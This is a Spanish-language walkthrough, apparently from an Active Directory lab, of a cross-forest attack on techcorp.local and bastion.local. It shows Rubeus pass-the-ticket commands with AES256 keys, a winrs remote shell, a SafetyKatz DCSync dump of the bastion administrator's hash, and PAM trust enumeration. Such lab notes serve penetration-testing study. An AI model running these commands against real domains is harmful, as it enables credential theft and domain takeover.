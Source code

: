 ```
PS C:\AD\Tools> Get-ADGroup -Filter * -Properties Member -Server bastion.local | ?{$_.Member -match 'S-1-5-21-2781415573-3701854478-2406986946-500'}
```

El administrador de techcorp.local es miembro del grupo de administradores integrado en bastion.local. Ahora se enumeran confianzas y accesos sobre el bosque Bastion.

En este punto solo queda hacer un PassTheTicket sobre ``techcorp\Administrator`` y luego obtener el hash de ``bastion\Administrator``:

```
C:\Windows\system32>C:\AD\Tools\Rubeus.exe asktgt /domain:techcorp.local /user:administrator /aes256:db7bd8e34fada016eb0e292816040a1bf4eeb25cd3843e041d0278d30dc1b335 /dc:techcorp-dc.techcorp.local /createnetonly:C:\Windows\System32\cmd.exe /show /ptt

winrs -r:bastion-dc.bastion.local cmd

C:\Windows\system32>C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:bastion\Administrator /domain:bastion.local" "exit"

C:\AD\Tools\Rubeus.exe asktgt /domain:bastion.local /user:administrator /aes256:a32d8d07a45e115fa499cf58a2d98ef5bf49717af58bc4961c94c3c95fc03292 /dc:bastion-dc.bastion.local /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
#### Enumeración de confianza PAM

```
### En bastion-dc 
Get-ADTrust -Filter {(ForestTransitive -eq $True) -and (SIDFilteringQuarantined -eq $False)}

$bastiondc = New-PSSession bastion-dc.bastion.local 
Invoke-Command -ScriptBlock {Get-ADTrust -Filter {(ForestTransitive -eq $True) -and (SIDFilteringQuarantined -eq $False)}} -Session $bastiondc
```

- Revisar los siguientes campos de ``DistinguishedName``, ``ForestTransitive``, ``SIDFilteringForestAware``. Ejemplo:

```
DistinguishedName : CN=production.local,CN=System,DC=bastion,DC=local
ForestTransitive : True
SIDFilteringForestAware : False
```

Una vez que se sabe que hay una confianza ForestTransitive y SIDFIlteringForestAware es falso, enumerar las confianzas en production.local para estar seguro de la confianza PAM en uso.

```
Get-ADTrust -Filter {(ForestTransitive -eq $True) -and (SIDFilteringQuarantined -eq $False)} -Server production.local
```

- Revisar los siguientes campos de ``DistinguishedName``, ``ForestTransitive``, ``SIDFilteringForestAware``. Ejemplo:

```
DistinguishedName : CN=bastion.local,CN=System,DC=production,DC=local
ForestTransitive : True
SIDFilteringForestAware : True
TrustAttributes : 1096
```
